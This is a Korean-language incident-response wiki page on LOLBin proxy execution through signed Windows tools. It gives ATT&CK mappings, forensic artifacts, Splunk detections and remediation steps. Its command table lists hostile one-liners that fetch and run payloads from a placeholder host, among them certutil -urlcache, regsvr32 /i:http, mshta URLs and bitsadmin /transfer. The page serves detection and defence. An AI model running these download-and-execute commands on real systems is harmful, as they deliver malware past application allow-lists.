

# LOLBins — 서명된 바이너리를 통한 프록시 실행 { #lolbins-signed-binary-proxy-execution }

<div class="dfir-meta" markdown>
**MITRE ATT&CK:** T1218 (시스템 바이너리 프록시 실행) — .005 Mshta · .010 Regsvr32 · .011 Rundll32 · .007 Msiexec · T1105 (도구 반입) · T1127.001 (MSBuild) · T1197 (BITS 작업) · **전술:** 방어 회피 / 실행 · **최종 수정:** 2026-10-07
</div>

!!! abstract "요약"
    "Living off the land" 바이너리는 **Windows에 기본 포함된 Microsoft 서명 도구**이지만 파일을 내려받고, 스크립트를 실행하고, 임의의 DLL을 로드할 수 있습니다. 공격자가 이것을 쓰는 이유는 "Microsoft 서명"을 신뢰하는 애플리케이션 허용 목록을 통과하고, 일반 관리 작업에 섞여 들며, AV가 차단을 꺼리기 때문입니다. [LOLBAS 프로젝트](https://lolbas-project.github.io/)가 200개 이상을 정리해 두었습니다. 방어자의 이점: 각 도구는 **정상 용도가 좁기** 때문에, *부모 프로세스*와 *명령줄*이 악용을 드러냅니다.

## 공격 원리 { #how-the-attack-works }



## 공격 도구 / 명령 { #attacker-tooling-commands }

| 바이너리 | 악용 (알아보기 위한 패턴) | 정상 용도 |
|---|---|---|
| `mshta.exe` | `mshta http://x/a.hta` · `mshta vbscript:Execute(...)` · `mshta javascript:...` | 현대 기업 환경에서는 거의 없음 |
| `regsvr32.exe` | `regsvr32 /s /n /u /i:http://x/a.sct scrobj.dll` ("Squiblydoo") | 설치 중 로컬 COM DLL 등록 |
| `rundll32.exe` | `rundll32 javascript:"\..\mshtml,RunHTMLApplication ";...` · `rundll32 C:\Users\Public\x.dll,Start` | 시스템 DLL 진입점 로드 (`shell32.dll,Control_RunDLL`) |
| `certutil.exe` | `certutil -urlcache -split -f http://x/p.exe p.exe` · `certutil -decode b64.txt p.exe` | 인증서 관리 |
| `bitsadmin.exe` / BITS | `bitsadmin /transfer j /download /priority high http://x/p.exe C:\p.exe` · `Start-BitsTransfer` | Windows Update, SCCM |
| `msiexec.exe` | `msiexec /q /i http://x/p.msi` | 로컬/UNC 경로에서 소프트웨어 설치 |
| `msbuild.exe` | `msbuild C:\Users\Public\x.csproj` (인라인 C# 작업) | 개발자 빌드에서만 |
| `installutil.exe` | `installutil /logfile= /LogToConsole=false /U x.dll` | .NET 서비스 설치 |
| `wmic.exe` | `wmic process call create`, `wmic os get /format:"http://x/a.xsl"` (XSL 스크립트) | 관리자 조회 (11에서 지원 중단) |
| `curl.exe` | `curl -o p.exe http://x/p.exe` | 10 1803부터 존재 — 개발자/관리자 |

## 영향받는 Windows 버전 { #affected-windows-versions }

| 바이너리 | XP | 7 | 10 | 11 | 메모 |
|---|---|---|---|---|---|
| rundll32 / regsvr32 / msiexec | ✅ | ✅ | ✅ | ✅ | 모든 버전 |
| mshta | ✅ | ✅ | ✅ | ✅ | IE 엔진; 11에도 여전히 있음 |
| certutil | Server 2003 / Admin Pack | ✅ | ✅ | ✅ | `-urlcache` 다운로드는 모든 현대 버전에서 동작 |
| bitsadmin | XP SP2 Support Tools | ✅ | ✅ (지원 중단) | ✅ | BITS 서비스 자체는 모든 버전에 있음 |
| msbuild / installutil | .NET 설치 시 | ✅ | ✅ | ✅ | .NET Framework와 함께 제공 |
| curl.exe | — | — | 1803+ | ✅ | |
| wmic | ✅ | ✅ | ✅ | 주문형 기능, 제거 진행 중 | |

## 남는 흔적 { #artifacts-left-behind }

| 위치 | 아티팩트 | 찾을 것 |
|---|---|---|
| Sysmon 1 / 4688 | 위 표의 명령줄 패턴; **부모** = `winword.exe`, `excel.exe`, `outlook.exe`, `wscript.exe`, `explorer.exe` (LNK) | 악용과 정상 용도의 차이는 대부분 여기서 보임 |
| Sysmon | `mshta`, `regsvr32`, `rundll32`, `msbuild`, `certutil`, `installutil`의 **3** (네트워크 연결) | 이들은 외부 연결을 거의 하지 않음 |
| Sysmon | 같은 이미지의 **22** (DNS 쿼리) | 다운로드 전의 DNS |
| Sysmon | `certutil`/`bitsadmin`이 `%TEMP%`, `Public`, `ProgramData`에 만든 **11** 파일 생성 | 떨어뜨린 다음 단계 파일 |
| BITS | `Microsoft-Windows-Bits-Client/Operational` **3** (작업 생성), **59/60** (URL과 함께 전송 시작/중지) | 모든 BITS 작업의 URL과 파일 — 사후 헌팅에 아주 좋음 |
| 파일 시스템 | `certutil` 캐시: `%USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content\` | 내려받은 파일 사본 + `MetaData`의 URL |
| 실행 증거 | `MSHTA.EXE`, `MSBUILD.EXE`의 [Prefetch](../windows/prefetch.md) (대부분 호스트에서 드묾); [Amcache](../windows/amcache.md) | 어떤 LOLBin이 언제 실행됐는지 |

## 탐지 { #detection }

=== "Splunk — LOLBin 다운로드/실행 패턴"

    ```spl
    index=botsv3 (sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventID=1) OR (sourcetype=WinEventLog EventCode=4688)
    | eval cmd=lower(coalesce(CommandLine, Process_Command_Line))
    | where match(cmd,"certutil.*(urlcache|-decode|verifyctl)|bitsadmin.*/transfer|regsvr32.*/i:\s*https?|scrobj\.dll|mshta\s+(https?|vbscript|javascript)|rundll32.*javascript:|msiexec.*/i\s*https?|msbuild.*\.(csproj|xml|proj)\b|installutil.*/u")
    | table _time, host, User, ParentImage, cmd
    ```

    LOLBin 악용 패턴마다 정규식 하나씩, `|`(OR)로 묶었습니다. `\s*`는 "공백 아무거나", `https?`는 `http` 또는 `https`에 맞습니다. 결과는 아주 적어야 하고, 각각 이름 있는 소프트웨어 설치로 설명돼야 합니다.

=== "Splunk — Office가 LOLBin 실행"

    ```spl
    index=botsv3 sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventID=1
    | eval parent=lower(replace(ParentImage,".*\\\\","")), child=lower(replace(Image,".*\\\\",""))
    | where parent IN ("winword.exe","excel.exe","powerpnt.exe","outlook.exe","onenote.exe","wscript.exe","cscript.exe")
      AND child IN ("mshta.exe","regsvr32.exe","rundll32.exe","certutil.exe","bitsadmin.exe","msiexec.exe","msbuild.exe","cmd.exe","powershell.exe")
    | stats count by host, parent, child, CommandLine
    ```

    부모/자식 쌍이 가장 강한 신호입니다: Word가 `mshta.exe`나 `regsvr32.exe`를 띄울 이유는 없습니다.

=== "Splunk — 네트워크를 쓰는 LOLBin"

    ```spl
    index=botsv3 sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventID=3
    | eval img=lower(replace(Image,".*\\\\",""))
    | where img IN ("mshta.exe","regsvr32.exe","rundll32.exe","msbuild.exe","installutil.exe","certutil.exe","cmstp.exe")
    | stats count, values(DestinationIp) as dst, values(DestinationPort) as port by host, img
    ```

    Sysmon `3` = 네트워크 연결. 이 이미지들이 인터넷과 통신하는 것은 기준선에서 거의 0이어야 합니다.

## 대응 { #response }

내려받은/다음 단계 파일(certutil 캐시, BITS 작업, `%TEMP%`)을 확보해 해시를 구하고, 프록시와 DNS 로그에서 URL/도메인으로 피벗해 다른 피해자를 찾습니다. 부모를 따라 미끼(이메일 첨부, LNK, ISO — [피싱 전달](phishing-delivery.md) 참고)까지 거슬러 올라가세요.

### Windows 버전별 대응책 { #remediation-by-windows-version }

| 대응책 | 막는 것 | 적용 가능 버전 |
|---|---|---|
| Microsoft *권장 차단 규칙*을 적용한 **WDAC** (일반 사용자에게 msbuild, installutil, mshta 등 차단) | 악용되는 바이너리 실행 | 10 / 2016+ |
| 같은 바이너리에 대한 **AppLocker** 거부 규칙 | 같은 효과, 더 단순 | 7 Enterprise/Ultimate, 2008 R2+ |
| **소프트웨어 제한 정책 (SRP)** | 기본적인 경로/해시 차단 | XP / 2003 → (지원 중단) |
| **ASR** — *Block Office from creating child processes*, *Block JS/VBS from launching downloaded content*, *Block executable files unless they meet prevalence/age criteria*, *Block Win32 API calls from Office macros* | 미끼 → LOLBin 체인 | 10 1709+, Server 2019+ |
| 필요 없는 구성 요소 제거/비활성화: WMIC (주문형 기능), 파일 연결 / WDAC로 mshta | 공격 면적 축소 | 11 (WMIC 제거 가능); WDAC/AppLocker로는 모든 버전 |
| 인증이 있는 외부 프록시; 워크스테이션의 직접 인터넷 차단 | 다운로드 크래들 | 모든 버전 |
| Sysmon 1/3/22 + BITS Operational 로그 수집 켜기 | 가시성 | Sysmon 10 / 2012 R2+; BITS 로그 Vista+ |

## 참고 자료 { #references }

- [LOLBAS project](https://lolbas-project.github.io/)
- [Microsoft — WDAC recommended block rules](https://learn.microsoft.com/windows/security/application-security/application-control/app-control-for-business/design/applications-that-can-bypass-appcontrol)
- [MITRE ATT&CK — T1218](https://attack.mitre.org/techniques/T1218/) · [T1105](https://attack.mitre.org/techniques/T1105/) · [T1197](https://attack.mitre.org/techniques/T1197/)
- 관련 페이지: [피싱 전달](phishing-delivery.md) · [PowerShell 크래들](powershell-cradles.md) · [Prefetch](../windows/prefetch.md)
